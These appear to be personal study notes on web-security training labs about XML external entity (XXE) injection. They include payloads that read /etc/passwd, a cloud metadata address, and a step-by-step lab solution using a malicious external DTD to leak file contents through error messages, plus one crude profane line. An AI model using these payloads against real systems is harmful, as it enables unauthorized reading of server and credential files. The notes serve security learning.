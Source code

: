 # labs
`http://169.254.169.254/`.

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>`

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]>
<root>
<foo>
&xxe;      <---------
</foo>
</root>
```



![[Pasted image 20240802132554.png]]

- check the error > tells you the end point you stupid fuck!

---



# Lab: Exploiting blind XXE to retrieve data via error messages

To retrieve abritray files from the server filesystem > must modify submitted XML in 2 different ways

1. introduce a `DOCTYPE` element that defines the external entitiy containing the path to the file
2. edit data value in the XML tha t

#### Solution

1. Click "Go to exploit server" and save the following malicious DTD file on your server:
    
    `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> %eval; %exfil;`
    
    When imported, this page will read the contents of `/etc/passwd` into the `file` entity, and then try to use that entity in a file path.
    
2. Click "View exploit" and take a note of the URL for your malicious DTD.
3. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
4. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
    
    You should see an error message containing the contents of the `/etc/passwd` file.



![[Pasted image 20240802234243.png]]
